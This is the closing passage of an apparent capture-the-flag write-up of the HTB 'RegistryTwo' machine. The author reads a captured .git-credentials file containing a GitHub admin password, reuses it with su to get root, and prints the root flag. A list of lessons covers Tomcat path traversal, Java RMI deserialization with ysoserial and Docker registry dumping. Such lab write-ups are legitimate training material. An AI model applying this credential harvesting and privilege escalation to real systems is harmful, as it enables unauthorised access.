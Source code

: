 Fingers crossed, we try again and see if we can get the .git credentials in the quarantine folder in `/tmp'.

```bash
developer@registry:/tmp$ ls quarantine/
quarantine-run-2023-12-02T15:22:03.416973652
```

Kaboooommmm, yeah fucker. Finally got it, now check the `.git-credentials` file.

```bash
developer@registry:/tmp$ cat quarantine/quarantine-run-2023-12-02T15\:22\:03.416973652/_root_.git-credentials 
https://admin:52nWqz3tejiImlbsihtV@github.com
```

```
admin:52nWqz3tejiImlbsihtV 
```

Great, here we have the root password. Lets change the user and we should probably get root access!

```bash
developer@registry:/tmp$ su
Password: 
root@registry:/tmp# cat /root/root.txt 
44eb63dcdf0a75bbdb043df157cac81c
```

Finally we finished this box, and this box was really fun and **PAIN**. But I learned a lot, so its ok.

---
#### Lessons learned
- Java Programming
- Java RMI concept
- Dumping docker registry
- Using docker registry API
- Tomcat Path Traversal
- [RMG](https://github.com/qtc-de/remote-method-guesser)
- Exploiting RMI Server with - [ysoserial](https://github.com/frohoff/ysoserial)
---

Machine tags:

- #HTB/Insane/RegistryTwo 
- #Linux 
- #Java/RMI
- #Java/Deserialization
- #Apache/Tomcat
- #Docker/DockerHubAPI
- #Docker/DockerRegistryDump
- #ClamAV/CustomSignature

---
